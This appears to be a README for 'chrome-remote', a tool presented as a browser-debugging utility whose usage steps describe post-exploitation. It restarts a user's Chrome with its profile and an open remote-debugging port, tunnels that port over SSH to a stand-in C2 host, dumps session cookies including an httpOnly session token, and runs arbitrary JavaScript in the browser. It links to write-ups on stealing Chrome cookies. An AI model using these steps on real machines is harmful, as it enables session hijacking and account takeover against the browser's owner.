# chrome-remote

> Utility for remote debugging of Google Chrome, Microsoft Edge and other Chromium-based browsers.

# Setup

Install with [pipx](https://github.com/pypa/pipx).

~~~ bash
pipx install git+https://github.com/dadevel/chrome-remote.git
~~~

# Usage

Restart the browser with remote debugging enabled.

~~~ powershell
Get-Process chrome | Stop-Process
Start-Process 'C:\Program Files\Google\Chrome\Application\chrome.exe' -ArgumentList '--user-data-dir="C:\Users\jdoe\AppData\Local\Google\Chrome\User Data" --restore-last-session --remote-debugging-port=9222 --remote-allow-origins=*'
~~~

Then forward `localhost:9222` back to your machine.

~~~ powershell
ssh.exe -R 127.0.0.1:9222:127.0.0.1:9222 proxy@c2.example.com
~~~

Now you can access the browser over the remote debugging protocol and, for example, list open tabs and installed extensions.

~~~ bash
chrome-remote list-tabs
chrome-remote list-extensions
~~~

Or dump session cookies.

~~~ bash
❯ chrome-remote dump-cookies | jq -r '.[]|select(.domain == "example.com")'
{
  "name": "sessid",
  "value": "SFE0R1REZFF0NFZCVTlMbEdSTEN5QXcxZloyS0tDVDg=",
  "domain": "example.com",
  "path": "/",
  "expires": -1,
  "size": 44,
  "httpOnly": true,
  "secure": true,
  "session": true,
  "sameSite": "None",
  "priority": "Medium",
  "sameParty": false,
  "sourceScheme": "Secure",
  "sourcePort": 443
}
...
~~~

Or execute arbitrary JavaScript in the remote browser.

~~~ bash
chrome-remote eval https://example.com/ ./script.js
~~~

# References

- [Stealing Chrome cookies without a password](http://web.archive.org/web/20240616123506/https://mango.pdf.zone/stealing-chrome-cookies-without-a-password)
- [Post-Exploitation: Abusing Chrome's debugging feature to observe and control browsing sessions remotely](http://web.archive.org/web/20240521025448/https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/)
- [Hands in the Cookie Jar: Dumping Cookies with Chromium’s Remote Debugger Port](http://web.archive.org/web/20240624212635/https://scribe.rip/@specterops/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e)
- [cookie_crimes](https://github.com/defaultnamehere/cookie_crimes)
- [WhiteChocolateMacademiaNut](https://github.com/slyd0g/WhiteChocolateMacademiaNut)
- [Debugging Cookie Dumping Failures with Chromium’s Remote Debugger](http://web.archive.org/web/20230721071951/https://scribe.rip/@slyd0g/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f) and [ripWCMN.py](https://gist.github.com/slyd0g/955e7dde432252958e4ecd947b8a7106#file-ripWCMN-py)
- [Chrome DevTools Protocol Documentation](https://chromedevtools.github.io/devtools-protocol/tot/Storage/)
